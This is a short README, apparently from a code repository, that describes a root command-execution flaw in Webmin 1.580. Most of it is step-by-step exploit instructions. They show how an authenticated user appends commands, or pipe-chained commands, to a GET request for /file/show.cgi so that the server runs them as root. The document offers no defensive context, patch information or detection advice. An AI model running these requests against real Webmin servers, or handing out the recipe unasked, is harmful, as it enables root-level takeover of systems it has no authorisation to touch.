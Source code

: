 # Webmin 1.580 Authenticated RCE Vulnerabilty

### Steps to get RCE:
1. Authenticate to Webmin (generally on port 10000)
2. Send a GET request to
`http://webmin-host:10000/file/show.cgi<COMMAND HERE>`, and your command gets executed as root on server.
	
    \<COMMAND HERE> can be something like '/bin/ls'
3. For multiple commands, send GET request to `http://webmin-host:10000/file/show.cgi<1st COMMAND HERE>|<2nd COMMAND HERE>|`

	<1st COMMAND HERE> can be something like '/bin/echo'

	<2nd COMMAND HERE> can be something like '/bin/ls%20--la'

	
**Webmin server runs on root, so anything executed by it is also with root.**
